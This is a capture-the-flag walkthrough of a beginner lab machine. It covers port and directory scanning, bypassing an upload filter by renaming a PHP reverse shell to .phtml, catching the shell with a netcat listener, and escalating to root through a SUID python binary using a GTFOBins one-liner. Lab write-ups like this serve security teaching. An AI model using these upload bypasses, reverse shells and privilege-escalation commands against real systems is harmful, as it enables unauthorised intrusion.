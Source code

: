 *A ctf for beginners, can you root me?*

**Difficulty:** Easy
## Reconnaissance

I started by scanning the top 1000 ports of the target IP with nmap using the default scripts and version detection. **10.10.80.208** is the IP address of my instance of the target machine.

**Command:** `nmap -sC -sV 10.10.80.208`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 20:15 EST
Nmap scan report for 10.10.80.208
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan shows two open ports: 
 * Port 22: Running an SSH server (OpenSSH 7.6p1 Ubuntu).
 * Port 80: Hosting a webpage titled "HackIT - Home" on Apache/2.4.29.

The results give us enough to answer the first three questions.
#### Scan the machine, how many ports are open?
This can be found from the nmap scan. Since the expected answer matches the number of open ports we found by scanning the top 1000, there is no need to further scan the full range of ports.
#### What version of Apache is running?
This can be seen in the `http-server-header` field of the scan results of port 80.
#### What service is running on port 22?
Refer to nmap scan to answer this question.
#### Find directories on the web server using the GoBuster tool. 
Now we need to enumerate the http service for any hidden directories using Gobuster. This will brute-force check using a wordlist of popular directory names. 

I used my Kali home lab for this room, so the command uses a relative path, but the wordlist can be found here on the attack box: `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

**Command:** `gobuster dir -u http://10.10.80.208 -w wordlists/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.80.208
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.80.208/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.80.208/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.80.208/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.80.208/panel/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

#### What is the hidden directory?
Two noteworthy directories are `/uploads` and `/panel`. Visiting `http://10.10.80.208/uploads/` returns a page that appears to be the location where files uploaded to the server are stored. Visiting `http://10.10.80.208/panel/` shows us a file upload form and seems to be the hidden directory we are looking for.

![](images/rootme-panel-directory.png)

I uploaded a `.jpeg` image to confirm that files uploaded through this form can be accessed in the `/uploads` path.

![](images/rootme-jpeg-upload.png)
## Getting a shell
*Find a form to upload and get a reverse shell, and find the flag.*

I used Gobuster to find hints of which type of reverse shell I should upload by adding the following list of extensions for Gobuster to look for on the server: `txt,php,php3,phtml,py,html,php4,php5,js`. 

**Command:** `gobuster dir -u http://10.10.80.208 -w wordlists/directory-list-2.3-medium.txt -x php,php3,php4,php5,phtml,py,js,html,txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.80.208
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,php3,phtml,py,html,php4,php5,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/.phtml               (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 616]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.80.208/uploads/]                                       
/css                  (Status: 301) [Size: 312] [--> http://10.10.80.208/css/]                                           
/js                   (Status: 301) [Size: 311] [--> http://10.10.80.208/js/]                                            
Progress: 14977 / 2205610 (0.68%)^Z
zsh: suspended  gobuster dir -u http://10.10.80.208 -w  -x 
```

Since the scan returned `.php` and `.phtml` directories and files on the server I tried with the "php-reverse-shell" script by pentestmonkey. 

GitHub: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

AttackBox: `/usr/share/webshells/php/php-reverse-shell.php`

Remember to change the commented lines to your local IP and listening port in the file.

![](images/rootme-rev-shell-local.png)

If you try to upload the reverse shell a message is displayed saying that `.php` are blocked from being uploaded to the server.

![](images/rootme-upload-php-shell.png)
![](images/rootme-php-restriction.png)

We can try to change the file extension to an alternate PHP extension that would still allow the shell to run, but may not have been restricted for uploads. I used some of these in the Gobuster scan: `php,php3,php4,php5,phtml` and we saw that `.phtml` was present on the server. So I tried renaming the reverse shell file to `php-reverse-shell.phtml`.

![](images/rootme-upload-phtml-shell.png)
![](images/rootme-successful-upload.png)

Changing the extension to `.phtml` allowed us to bypass the site file type restrictions and the file uploads successfully! And we can now see the file in the `/uploads` directory.

![](images/rootme-phtml-upload.png)

Before opening this file in our browser we need to start a netcat listener on our local machine to catch the reverse shell connection. This command needs to run with the same port specified in the `php-reverse-shell.phtml` file.

**Command:** `nc -lvnp 5555`

Executing the file through the browser initiates a reverse shell with `www-data` privileges. 
![](images/rootme-www-data-priv.png)

After looking around the server a bit I found the `user.txt` flag in the `var/www` directory.
![](images/rootme-user-flag.png)
## Privilege escalation
*Now that we have a shell, let's escalate our privileges to root.*
#### Search for files with SUID permission, which file is weird?
With the below command we can search for files that are owned by root and have SUID permissions.

**Command:** `find / -user root -perm /4000 2>/dev/null

![](images/rootme-suid-perm.png)

Python showing up in this search is noteworthy because it will let us execute commands as the current user with root privileges.
#### Find a form to escalate your privileges.
GFTOBins provides a way to escape our privileges to root when python has SUID permissions: https://gtfobins.github.io/gtfobins/python/#suid

The command shown in GFTOBins will invoke `/bin/sh` with the `-p` flag, preserving the user ID. Since Python is SUID and owned by root, it gives us a shell with root privilege.

**Command:** `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![](images/rootme-escalate.png)
#### root.txt
We can now access the root directory and find the root flag!

![](images/rootme-root-flag.png)